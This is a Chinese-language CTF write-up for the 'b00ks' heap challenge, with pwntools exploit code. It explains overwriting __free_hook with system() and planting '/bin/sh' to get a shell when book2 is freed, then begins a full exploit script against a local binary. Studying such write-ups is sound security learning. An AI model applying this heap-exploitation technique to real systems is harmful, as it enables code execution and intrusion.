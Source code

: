```python
log.info("Book2's name --> /bin/sh")
log.info("Book2's desc --> free_hook")
log.info("Prepare to change book2's description, also known as __free_hook.")
time.sleep(1)
payload3 = p64(system)
edit(2,payload3)
p.recvuntil("> ")
time.sleep(1)
log.success("Now __free_hook's address is system's address!")
```

> payload2 = p64(binsh) + p64(free_hook)说明：
>
> <font style="background-color:transparent;">payload调用了edit函数，</font>这里修改的实际是 book2 的 name 以及 description 项~~**<font style="color:#F5222D;background-color:transparent;">实际上是再次修改 fake_book的 name 以及 description 项</font>**~~<font style="background-color:transparent;">为/bin/sh地址和free_hook的地址。</font>
>
> ~~<font style="background-color:transparent;">（因为已经泄露出book2的地址了，这里原</font>~~~~<font style="background-color:transparent;">fake_book的内容已经没有利用价值了</font>~~~~<font style="background-color:transparent;">）</font>~~
>
> payload3 = p64(system)
>
> 修改 book2 的 description 项为 system 函数地址(这里实际修改的是 __free_hook 的地址)。
>

**最后再free book2** ，在 free description时，实际调用的则是 system("/bin/sh")，得到shell。

大概的流程就是：**信息泄露–伪造结构–信息泄露–改写函数–取得shell**

# exp内容及执行详情
```python
from pwn import *
import time
context(log_level='DEBUG')

def create(name_len, name, desc_len, desc):
    p.sendline("1")
    p.recvuntil("Enter book name size: ")
    p.sendline(str(name_len))
    p.recvuntil("Enter book name (Max 32 chars): ")
    p.sendline(name)
    p.recvuntil("Enter book description size: ")
    p.sendline(str(desc_len))
    p.recvuntil("Enter book description: ")
    p.sendline(desc)

def delete(index):
    p.sendline("2")
    p.recvuntil("Enter the book id you want to delete: ")
    p.sendline(str(index))

def edit(index, desc):
    p.sendline("3")
    p.recvuntil("Enter the book id you want to edit: ")
    p.sendline(str(index))
    p.recvuntil("Enter new book description: ")
    p.sendline(desc)

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
log.info("Loading program...")
p = process("./b00ks")
log.success("Load success!")
```